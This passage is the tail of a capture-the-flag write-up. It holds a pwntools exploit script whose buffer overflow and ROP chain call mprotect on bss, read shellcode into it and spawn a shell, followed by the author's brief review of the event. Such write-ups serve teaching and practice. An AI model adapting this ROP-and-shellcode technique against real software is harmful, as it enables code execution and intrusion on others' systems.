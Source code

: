 ```py
    return fixed

payload = p64(MOV_RSI_RDI) + p64(POP_RDI) + p64(0) + p64(POP_RDX_RCX) + p64(0xcfcfcfcf) + p64(0xcfcfcfcf) + p64(SYSCALL)

payload = convert_chain(payload)

customize(new)


reachRIP = '///////8888888888888888888888'

payload = reachRIP + payload

visualize(payload)


p.sendline("3") #trigger ret

#raw rop chain

POP_RBX = 0x0000000000402500
POP_RAX = 0x0000000000459d27
stack_port = 0x4e5eb0
POP_RSI = 0x000000000040aafe
SYSCALL 
payload = b"A" * (0x670)

payload += p64(POP_RDI) + p64(0x4e6000) + p64(POP_RSI) + p64(0x1000) + p64(POP_RDX_RCX) + p64(0x7) + p64(0) + p64(elf.sym.mprotect) #mprotect bss
payload += p64(POP_RDI) + p64(0) + p64(POP_RSI) + p64(0x4e6000) + p64(POP_RDX_RCX) + p64(0x100) + p64(0) + p64(SYSCALL) #call read on bss
payload += p64(0x4e6000) #jmp to bss

p.sendline(payload)

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

## Appendix

The event was overall good. I liked `gep` a lot,  but I just wished there more "normal" pwn, since there was some apk stuff and another blind 16bit assembly challenge.

If you have any question regarding the above solutions, you can DM me via my [Twitter](https://x.com/itaybel) or my `Discord` (itaybel).
